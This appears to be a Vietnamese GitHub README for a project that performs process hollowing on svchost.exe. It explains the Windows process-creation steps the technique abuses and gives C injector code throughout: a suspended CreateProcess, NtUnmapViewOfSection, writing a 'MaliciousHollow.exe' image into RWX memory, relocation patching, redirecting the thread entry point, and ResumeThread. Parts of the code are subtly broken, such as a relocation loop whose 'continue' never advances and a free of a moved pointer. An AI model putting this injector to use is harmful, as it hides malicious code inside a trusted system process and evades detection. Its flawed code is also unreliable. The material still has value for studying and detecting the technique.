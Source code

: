 # ProcHollow
Repository này thực hiện xây dựng một chương trình tiến hành kỹ thuật Process Hollowing trên tiến trình svchost.exe.
# Một số kiến thức
Tham khảo từ https://hackmd.io/@Wh04m1/Sk4ZLgGc6

Khi tiến hành tạo một process, Kernel mở file thực thi và kiểm tra -> File PE hợp lệ thì kernel tạo 1 kernel process object và 1 kernel thread object đại diện cho process và thread mới -> kernel ánh xạ image và NTDLL.DLL vào không gian bộ nhớ của tiến trình
-> thông báo cho tiến trình quản lý csrss.exe về process mới được tạo.

Tới đây, một tiến trình được kernel coi là khởi tạo thành công. Tiếp theo là quá trình khởi tạo context bên trong process.
Đối tượng quản lý process ở không gian người dùng là Process Environment Block và Thread Environment Block được khởi tạo -> Khởi tạo các thuộc tính khác, như heap, thread pool -> Tải các DLL cần thiết -> Khởi chạy tại entry point.

Nếu sử dụng API CreateProcess() với cờ CREATE_SUSPENDED, process mới được tạo sẽ ở trạng thái ngưng và chỉ có thể tiếp tục bằng API ResumeThread(). Khi được tạo ở trạng thái này, process sẽ được khởi tạo đến bước tạo PEB và TEB, còn các quá trình
tạo heap, tải DLL, chạy tại entry point vẫn chưa được thực hiện. Kỹ thuật Process Hollowing sẽ lợi dụng điều này: tại một process bị suspended, xóa bỏ image gốc được nạp ban đầu, thay thế bằng image độc hại, thiết lập các context của image cho phù hợp và khiến process
chạy image độc hại thay vì chương trình ban đầu.

# Các bước thực hiện
Tại phần mềm injector, trước hết cần định nghĩa một số function và cấu trúc quan trọng cần dùng
```C
typedef NTSTATUS(NTAPI* pfnNtUnmapViewOfSection)(HANDLE ProcessHandle, PVOID BaseAddress);
typedef NTSTATUS(NTAPI* pfnNtQueryInformationProcess)(HANDLE ProcessHandle, PROCESSINFOCLASS ProcInfoClass,
	PVOID ProcInfor, ULONG ProcInfoLen, PULONG ReturnLen);
HMODULE hNTDLL = GetModuleHandleA("NTDLL.DLL");	// Mo NTDLL
// Lay dia chi ham NtUnmapViewOfSection
pfnNtUnmapViewOfSection pNtUnmapViewOfSection = (pfnNtUnmapViewOfSection)GetProcAddress(hNTDLL, "NtUnmapViewOfSection");
pfnNtQueryInformationProcess pNtQueryInformationProcess = (pfnNtQueryInformationProcess)GetProcAddress(hNTDLL, "NtQueryInformationProcess");
```
NtQueryInformationProcess là API dùng để lấy thông tin của Process, NtUnmapViewOfSection là API dùng để unmap vùng nhớ đã được cấp phát. Hai Native API này của Windows, được định nghĩa trong thư viện NTDLL.DLL
nhưng chưa được khai báo sẵn trong Windows SDK nên cần khai báo con trỏ hàm cho 2 API này để gán vào địa chỉ hàm đọc từ NTDLL ra.

Tiếp theo là định nghĩa một số cấu trúc struct chưa được định nghĩa đầy đủ là PEB_LDR_DATA, PEB_FREE_BLOCK, _UNICODE_STR, PEB, IMAGE_RELOC
## 1. Tạo mới process
Tạo mới process với API CreateProcess() trong đó cần truyền vào đường dẫn của tiến trình nạn nhân, cờ CREATE_SUSPENDED và hai struct STARTUPINFO + PROCESS_INFORMATION. STARTUPINFO là một cấu trúc dùng để chỉ định các thuộc tính khởi tạo của một tiến trình
gồm cách cửa sổ tiến trình hiển thị, giao diện và môi trường chạy. 
```C
typedef struct _PROCESS_INFORMATION {
  HANDLE hProcess;
  HANDLE hThread;
  DWORD  dwProcessId;
  DWORD  dwThreadId;
} PROCESS_INFORMATION, *PPROCESS_INFORMATION;

```
PROCESS_INFORMATION là cấu trúc chứa thông tin về tiến trình và luồng chính được tạo ra, nhận lại thông tin về tiến trình: handle Process và Thread, ProcessId, ThreadId.
```C
STARTUPINFO si;
PROCESS_INFORMATION pi;

ZeroMemory(&si, sizeof(si));
si.cb = sizeof(si);
ZeroMemory(&pi, sizeof(pi));
WCHAR victim[] = L"C:\\Windows\\System32\\svchost.exe";
if (!CreateProcess(NULL,    // No module name
    victim,                // CommandLine chua duong dan tien trinh duoc thuc thi
    NULL,                   // Process handle khong duoc ke thua
    NULL,                   // Thread handle khong duoc ke thua
    FALSE,                  // Handle khong duoc ke thua
    CREATE_SUSPENDED,       // creation flag == suspend
    NULL,                   // Su dung parent's environment block
    NULL,                   // Su dung start directiory cua parent
    &si,                    // pointer toi STARTUPINFO
    &pi                     // pointer toi PROCESS_INFORMATION
))
{
    std::cout << "Create process fail." << GetLastError() << std::endl;
    return 1;
}
```
Sau khi tạo tiến trình bị suspended, đọc thông tin của qua NtQueryInformationProcess, sử dụng struct PROCESS_BASIC_INFORMATION
```C
typedef struct _PROCESS_BASIC_INFORMATION {
    PVOID Reserved1;
    PPEB  PebBaseAddress;
    PVOID Reserved2[2];
    ULONG_PTR UniqueProcessId;
    ULONG_PTR InheritedFromUniqueProcessId;
} PROCESS_BASIC_INFORMATION;
```
Sử dụng ReadProcessMemory để đọc thông tin tại địa chỉ PebBaseAddress vào một biến PEB. Lấy được PEB.lpImageBaseAddress và Base Image Address của tiến trình.
Sử dụng NtUnmapViewOfSection để unmap vùng nhớ địa chỉ lpImageBaseAddress.

## 2. Tải image mới vào vùng nhớ đã hollowing
Mở và đọc file thực thi của tiến trình độc hại.
```C
WCHAR imagePath[] = L"..\\MaliciousHollow.exe";
HANDLE hFile = CreateFileW(imagePath, GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL); // mo file
DWORD rawImageSize = GetFileSize(hFile, NULL);	// lay kich thuoc file
LPVOID buffer = VirtualAlloc(NULL, rawImageSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
ReadFile(hFile, buffer, rawImageSize, NULL, NULL); // doc file, ghi vao buffer
CloseHandle(hFile);
```
Sau đó, cấp phát vùng nhớ tại chính vị trí đã hollowing, với kích thước là kích thước image tiến trình độc hại
```C
PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((ULONG_PTR)buffer + ((PIMAGE_DOS_HEADER)buffer)->e_lfanew);
LPVOID imageBase = VirtualAllocEx(pi.hProcess, peb.lpImageBaseAddress, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```
Ta sẽ copy header và các section vào vùng nhớ này. Theo Copilot giải thích, một số chương trình như SVCHOST.EXE có cơ chế kiểm tra nội bộ PEB->ImageBaseAddress so với ImageBase trong header. Cần phải cập nhật lại header của image giá trị ImageBase mới giống với PEB
của tiến trình SVCHOST.EXE rồi mới copy header vào vùng nhớ.
```C
ULONG_PTR delta = (ULONG_PTR)imageBase - ntHeader->OptionalHeader.ImageBase;
ntHeader->OptionalHeader.ImageBase = (ULONG_PTR)imageBase;
ULONG_PTR uValueA = ntHeader->OptionalHeader.SizeOfHeaders;
// copy header
WriteProcessMemory(pi.hProcess, imageBase, buffer, uValueA, NULL);
// copy section
uValueA = (ULONG_PTR)ntHeader + sizeof(IMAGE_NT_HEADERS);
ULONG_PTR uValueB = ntHeader->FileHeader.NumberOfSections;
while (uValueB)
{
	ULONG_PTR Src = (ULONG_PTR)buffer + ((PIMAGE_SECTION_HEADER)uValueA)->PointerToRawData;
	ULONG_PTR Des = (ULONG_PTR)imageBase + ((PIMAGE_SECTION_HEADER)uValueA)->VirtualAddress;
	WriteProcessMemory(pi.hProcess, (LPVOID)Des, (LPVOID)Src, (((PIMAGE_SECTION_HEADER)uValueA)->SizeOfRawData), NULL);
	// to next section
	uValueA += sizeof(IMAGE_SECTION_HEADER);
	uValueB--;
}
```
Trong quá trình sao chép image này, chúng ra sẽ tiến hành cả xử lý Relocation. Lưu ý, khác với Reflective DLL injection, nơi mà ReflectiveLoader thực thi là trong nội bộ tiến trình nạn nhân nên nó có thể truy cập trực tiếp vùng nhớ Relocation qua con trỏ.
Ở đây, injector đóng vai trò là một tiến trình bên ngoài tiến trình SVCHOST.EXE nên không thể truy cập trực tiếp vùng nhớ đã ghi vào trong SVCHOST.EXE. Cần phải dùng ReadProcessMemory đọc Reloc Table, sau đó duyệt qua Reloc Table.
Với mỗi entry, sử dụng ReadProcessMemory để lấy ra giá trị Reloc, cộng delta ImageBase và ghi lại qua WriteProcessMemory.
```C
PIMAGE_DATA_DIRECTORY RelocDir = &(ntHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC]);

if (delta)
{
	if (RelocDir->Size)
	{
		uValueA = (ULONG_PTR)imageBase + RelocDir->VirtualAddress; // dia chi cua reloc table trong bo nho
		LPVOID RelocBuffer = VirtualAlloc(NULL, RelocDir->Size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
		ReadProcessMemory(pi.hProcess, (LPVOID)uValueA, RelocBuffer, RelocDir->Size, NULL);
		// Image dang nam tren vung nho nam ngoai pham vi truy cap truc tiep cua con tro thuoc ProHollow, can Read, Write Process
		while (((PIMAGE_BASE_RELOCATION)RelocBuffer)->SizeOfBlock)
		{
			// Lay dia chi page tuong ung voi relocation block nay
			uValueB = (ULONG_PTR)imageBase + ((PIMAGE_BASE_RELOCATION)RelocBuffer)->VirtualAddress;
			ULONG_PTR numberEntry = (((PIMAGE_BASE_RELOCATION)RelocBuffer)->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(IMAGE_RELOC);
			PIMAGE_RELOC pEntry = (PIMAGE_RELOC)((ULONG_PTR)RelocBuffer + sizeof(IMAGE_BASE_RELOCATION));// Dang o day
			while (numberEntry)
			{

				if (pEntry->type == 0)
					continue;
				ULONG_PTR relocPos = uValueB + pEntry->offset;
				ULONG_PTR relocPosData = 0;
				BOOL c =ReadProcessMemory(pi.hProcess, (LPVOID)relocPos, &relocPosData, sizeof(relocPosData), NULL);
				relocPosData += delta;
				BOOL d = WriteProcessMemory(pi.hProcess, (LPVOID)relocPos, &relocPosData, sizeof(relocPosData), NULL);
				// next
				pEntry++;
				numberEntry--;
			}
			RelocBuffer = (LPVOID)((ULONG_PTR)RelocBuffer + ((PIMAGE_BASE_RELOCATION)RelocBuffer)->SizeOfBlock);
		}

		VirtualFree(RelocBuffer, 0, MEM_RELEASE);
	}
}
```
## 3. Cập nhật giá trị entry point cho tiến trình SVCHOST.EXE
```C
CONTEXT context = { 0 };
context.ContextFlags = CONTEXT_FULL;
GetThreadContext(pi.hThread, &context);
context.Rcx = (ULONG_PTR)imageBase + ntHeader->OptionalHeader.AddressOfEntryPoint;
SetThreadContext(pi.hThread, &context);
```
## 4. Gọi ResumeThread
```C
ResumeThread(pi.hThread);
```
